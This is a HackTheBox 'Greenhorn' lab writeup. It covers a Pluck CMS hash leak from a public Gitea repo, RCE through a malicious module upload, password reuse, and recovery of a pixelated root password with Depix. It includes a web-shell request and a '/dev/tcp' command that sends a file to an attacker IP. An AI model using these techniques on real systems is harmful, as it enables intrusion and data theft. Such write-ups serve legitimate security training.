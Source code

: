 ```yaml
---
layout: post
title: "Greenhorn"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox, Web, Linux]
tags: [HTB, Writeup, Security, web, linux, PHP, CMS]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/favicons/Hack-The-Box-logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```



starting with nmap 

```bash
sudo  nmap -sC -sV -p- -oN greenHorn -T4 10.10.11.25
```
 ![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722002947.png)

so we got 2 websites , one hosted on the port 80 and the other on the port 3000
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722003219.png)



on the port 3000 , we got gitea , with a public repos contains the source code of `pluck cms`
on the other port we found the `pluck cms`

![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722003527.png)

from the fisrt look , I assume that this websites is the same one as the one in the `gitea repo`

so let's take look at the source code , quick review of the code 

this file got my attention http://greenhorn.htb:3000/GreenAdmin/GreenHorn/src/branch/main/login.php 

```php
else {

require_once 'data/settings/pass.php';

  

//Check if we're already logged in. First, get the token.

require_once 'data/settings/token.php';
```

let's check the `data/settings/pass.php`
```php
<?php

$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';

?>
```
this files returns a hash to the  `login.php` file 

then the cms generate a hash based on the user input and stored it in  `$pass`
```php
  

//If password has been sent, and the bogus input is empty, MD5-encrypt password.

if (isset($_POST['submit']) && empty($_POST['bogus'])) {

$pass = hash('sha512', $cont1);
```
after that he compares the `$ww (hash returned from pass.php)` with the `$pass`
to confirm that the password is correct
```php

//If password is correct, save session-cookie.

if (($pass == $ww) && (!isset($login_error))) {

$_SESSION[$token] = 'pluck_loggedin';
```

if we crack the hash on the pass.`php` we will get access to the `cms`  , since the  hash is `SHA5` , I will try to crack it using [crackstation](https://crackstation.net/)

![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722011750.png)
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722012056.png)

the CMS is on version `4.7.18`` , I quick google search lead me to [this exploit] (https://www.exploit-db.com/exploits/51592)

after reading the script .
the scenario is the following :
```
user with admin privilege can upload a module (module is just zip with php files) using http://target/pluck/admin.php?action=installmodule
, then we can run those files , since we control those files we can use them to get rce .
```

first I will create a zip with two files `poc.php,rce.php`
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722012944.png)
```bash
zip rce.zip poc.php rce.php
```
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722013106.png)

![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722013302.png)

http://greenhorn.htb/data/modules/rce/poc.php
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722013344.png)

http://greenhorn.htb/data/modules/rce/rce.php?cmd=id
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722013526.png)

let's get rev shell now
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722014725.png)

![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722014758.png)

we have 3 users on this machines
```bash
cat  /etc/passwd | grep sh$
```
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722014835.png)

I tried to reuse the password of the website , against users and I am `junior` now!!
```bash
su junior
```

there's a pdf on `junior's home`
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722015126.png)

let's transfer it to our machine  to check it 
```bash
# on the target :
		cat 'Using OpenVAS.pdf' > /dev/tcp/10.10.14.234/1337
# on the attacker machine :
		nc -nvlp 1337 > openvas.pdf
```
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722015319.png)

there's a hidden password in this pdf , we need to unblur it!!
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722015603.png)

at this point I was stuck , so I ask for hints from the HTB discord server 
we need tools like https://github.com/spipm/Depix to un-blur the password

but first we need to convert the pdf to png (wasn't lucky with taking screenshots),
using websites like https://pdfcandy.com will be enough 

after generating the image I use  `Depix tool` to generate un-blurred  image
```bash
python3 depix.py -p  ../OpenVas.png  -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o root.png
```

and I got this 
![root.png](/assets/img/posts/GreenHorn/root.png){:normal}

```
sidefromsidetheothersidesidefromsidetheotherside
```
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722020616.png)
